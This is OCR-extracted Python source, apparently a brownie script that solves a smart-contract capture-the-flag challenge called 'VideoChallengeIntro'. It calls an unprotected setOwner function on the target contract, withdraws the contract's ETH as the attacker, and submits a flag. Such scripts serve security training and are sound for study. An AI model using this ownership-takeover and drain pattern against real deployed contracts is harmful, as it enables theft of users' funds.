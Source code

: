 ```py
            run(
                [
                    "brownie",
                    "networks",
                    "modify",
                    "mevsec",
                    f"host={RPC_URL}",
                ],
                check=True,
            )
        except:
            print("OPPS!!")
            exit(-1)

        # print(Setup)
        # print(type(Setup))
        # exit()
        setup = Setup.at(f"{SETUP}")
        attacker = get_account()

    print_colour(setup.isSolved())

    # ? get the address of the target contract
    vci_contract = VideoChallengeIntro.at(setup.vci.call())
    # print(target.vci.call())

    print(
        f"{magenta}Contract balance: {green}{web3.fromWei(vci_contract.balance({'from': attacker}), 'ether')} ETH{reset}"
    )
    # print(dir(vci_contract))

    vci_contract.setOwner({"from": attacker, "gas_limit": 200000}).wait(1)
    vci_contract.withdraw({"from": attacker, "gas_limit": 200000}).wait(1)

    print(
        f"{magenta}Contract balance: {green}{web3.fromWei(vci_contract.balance({'from': attacker}), 'ether')} ETH{reset}"
    )
    print_colour(setup.isSolved())

    assert setup.isSolved() == True

    if netwrk == "mevsec":
        # now sublit & get the points
        submit(FLAG_ID)


def main():
    netwrk = network.show_active()
    # print(netwrk)

    if netwrk == "mevsec":
        hack(netwrk)
    else:
        hack()


if __name__ == "__main__":
    main()

```
